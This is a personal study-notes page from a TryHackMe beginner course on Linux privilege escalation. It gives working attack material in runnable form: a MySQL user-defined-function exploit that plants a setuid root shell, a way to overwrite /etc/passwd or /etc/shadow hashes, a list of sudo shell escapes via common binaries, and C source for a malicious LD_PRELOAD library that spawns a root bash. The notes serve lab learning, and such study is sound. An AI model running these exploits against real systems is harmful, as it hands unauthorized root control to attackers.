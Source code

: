 # TryHackMe: Complete Beginner

## Linux PrivEsc

### Service Exploits

[Exploiting MySQL running as root via a malicious user-defined function dynamic library.](https://www.exploit-db.com/exploits/1518)

The key to this is that if MySQL is running as root, then it can write files to all manner of directories. We use this to load a malicious library (raptor_udf2.so from the above ExploitDB link) as a plugin by first dumping it as a blob into a table and then dumping it back out in MySQL’s plugin directory. Once there, we define a UDF using the malicious plugin to allow us to execute system commands; in particular, this lets us set the sticky bit on a copied shell that we can then execute to obtain root.

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
cat > rootme.sql <<EOF
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
EOF
mysql -u root mysql < rootme.sql
/tmp/rootbash -p # Root!
```

### Weak File Permissions

Make a new password hash for /etc/password or /etc/shadow:

```bash
mkpasswd -m sha-512 $PASSWORD
```

[It’s also possible to generate MD5 passwords for /etc/passwd using the openssl binary.](../notes/local-file-inclusion-attacks.md)

### Sudo

Some shell escapes via GTFOBins:

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — `:set shell=/bin/sh` followed by `:shell`

If LD_PRELOAD or LD_LIBRARY_PATH are preserved by sudo, then it’s also possible to use a malicious dynamic library to gain root access. Preserved environment variables are listed by `sudo -l`.

LD_PRELOAD is probably the easiest of these to exploit, because a library listed in this environment variable is just automatically loaded on application start. So just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

Using LD_LIBRARY_PATH is a bit trickier; use ldd to see what libraries a program is already pulling in, and then name your malicious library after one of these. Then run `sudo LD_LIBRARY_PATH=/path/to/malicious/library program-runnable-with-nopasswd` to trick the program into loading your malicious library instead of the legitimate system library.

While the same code as LD_PRELOAD can be used as a starting point for an LD_LIBRARY_PATH exploit, things get trickier because some libraries are required by others, loaded at different times, or have functions (symbols) that are loaded but not used right away. So some amount of trial-and-error, both in the naming of the malicious library and in what functions are defined within it, may be required.

NOTE that not every UNIX-like system calls their library path LD_LIBRARY_PATH!

* [GTFOBins](https://gtfobins.github.io)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 30, 2021
